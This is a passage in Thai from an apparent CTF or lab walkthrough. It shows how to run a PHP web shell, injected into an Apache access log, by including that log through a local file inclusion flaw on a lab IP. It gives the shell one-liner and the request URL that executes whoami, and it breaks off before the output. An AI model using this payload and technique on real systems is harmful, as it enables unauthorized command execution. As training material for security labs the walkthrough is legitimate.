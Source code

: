 ### 🧫 2.8 เรียกใช้ Webshell ผ่าน LFI เพื่อทดสอบคำสั่ง whoami
> หลังจากที่เราฝังโค้ด PHP (<?php system($_GET['cmd']); ?>) ลงใน log แล้วเรียบร้อย
เป้าหมายถัดไปคือการ ทดสอบว่าเราสามารถรันคำสั่งระบบได้จริงหรือไม่

✅ วิธีเรียกใช้ Webshell:

21. วาง URL ดังนี้:

```bash
http://10.10.85.123/?view=/var/log/apache2/access.log&ext=&cmd=whoami
```

อธิบายพารามิเตอร์:
 - `view=` → ใช้ LFI เพื่อโหลดไฟล์ log ที่เราฝังโค้ดไว้
 - `ext=` → ส่งค่าว่าง เพื่อหลีกเลี่ยงไม่ให้ระบบเติม .php เข้าไปอัตโนมัติ
 - `cmd=whoami` → สั่งให้รันคำสั่ง whoami เพื่อดูว่าเราทำงานอยู่ในสิทธิ์ของผู้ใช้ใด

22. หลังจากที่วาง URL ไปแล้วจากนั้นทำการ Send สังเกตุจาก Response จะเห็นว่าเราไม่เจออะไรเลย เราจำเป็นต้องกด Send อีกที ผลลัพธ์จึงจะออกมา

![log](images/14.png)

23. ทำไมต้องกด Send สองครั้ง?
> หลังจากที่เรา inject โค้ด PHP ลงใน access.log และพยายามโหลดไฟล์นั้นผ่าน LFI เพื่อรันคำสั่ง เช่น whoami แล้ว
ครั้งแรกที่เรากด Send ใน Burp Suite (หรือโหลด URL นั้นผ่านเบราว์เซอร์)
อาจ ยังไม่เห็นผลลัพธ์ของคำสั่ง เพราะ Log file ยังไม่ถูกอัปเดตแบบ real-time ในช่วงวินาทีนั้น

เมื่อทำแบบนี้ เราจะเห็น output เป็น:
